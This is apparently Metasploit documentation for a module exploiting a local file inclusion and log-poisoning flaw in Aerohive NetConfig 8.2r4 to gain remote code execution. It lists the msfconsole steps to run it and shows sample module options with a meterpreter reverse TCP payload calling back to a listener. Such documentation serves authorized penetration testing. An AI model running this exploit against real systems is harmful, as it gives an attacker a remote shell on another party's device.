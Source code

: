 ## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to Aerohive NetConfig. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Aerohive NetConfig 8.2r4 - Linux target - AUTO_CLEAN_LOG false
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  false            yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4000             yes       The listen port


Exploit target:

   Id  Name
```